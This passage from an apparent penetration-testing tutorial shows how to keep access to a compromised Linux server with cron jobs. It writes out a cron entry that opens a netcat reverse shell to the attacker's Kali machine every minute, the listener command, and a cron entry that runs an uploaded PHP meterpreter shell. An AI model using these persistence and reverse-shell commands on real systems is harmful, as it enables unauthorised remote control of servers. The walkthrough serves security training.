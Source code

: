 ```bash
crontab -e
```

We can now add a new cron job that will execute a netcat command every minute, this can be done by adding the following line to the crontab file:

```bash
* * * * * nc <KALI-IP><PORT> -e /bin/sh
```

As shown in the following screenshot, this cron job will connect to a netcat listener every minute.

![](../../assets/img/redteam/pt12.png)

After adding the cron job, you will need to save the file, after which, you should be presented with a message similar to the one shown in the following screenshot.

![](../../assets/img/redteam/pt13.png)

We can now set up our netcat listener by running the following command on Kali:

  ```bash
  nc -nvlp
  ```

After one minute, the cron job will be executed and you should receive a reverse shell on your netcat listener as shown in the following screenshot.

![](../../assets/img/redteam/pt14.png)

Alternatively, instead of using netcat to obtain a reverse shell, we can create a cron job that executes the PHP meterpreter shell we created and uploaded in the previous section. This can be done by adding the following line to the crontab file:

```bash
* * * * * php -f /var/www/html/backup.php
```

As shown in the following screenshot, after one minute you should receive a meterpreter session.

![](../../assets/img/redteam/pt15.png)

Persistence has been established on the target server by generating a cron job that connects back to our listener. Furthermore, a cron job has been established to execute the PHP meterpreter shell we uploaded to the target server.
